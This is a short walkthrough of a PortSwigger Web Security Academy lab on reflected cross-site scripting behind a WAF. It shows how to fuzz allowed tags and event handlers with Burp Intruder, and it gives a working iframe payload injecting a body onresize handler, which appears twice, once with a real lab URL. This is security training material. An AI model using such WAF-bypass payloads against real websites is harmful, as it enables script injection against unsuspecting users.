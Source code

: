 # Reflected XSS into HTML context with most tags and attributes blocked

## This lab contains a [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

## To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the WAF and calls the `print()` function.

### HINT:

```javascript
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

### step1

search any tag<> like `<script>` you will notice it is blocked not allowed
intercept this request and send to intruder
add <§§> into search into intruder then add payload from xss cheat seat copy `copy tag to clipboard`
you will get 200 response
`<body>` tag is allowed

### step2

add <body%20§§=1> into search into intruder
add payload from xss cheat seat copy `copy event to clipboard`
<<body%20onbeforeinput=1>
<<body%20onresize=1>
<<body%20onscrollend=1>
these give 200 response

### step3

```javascript
<iframe src="https://0a9600c2042f98f480dae9cb00ec001d.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

add into expolit page and deliver expolit to victim
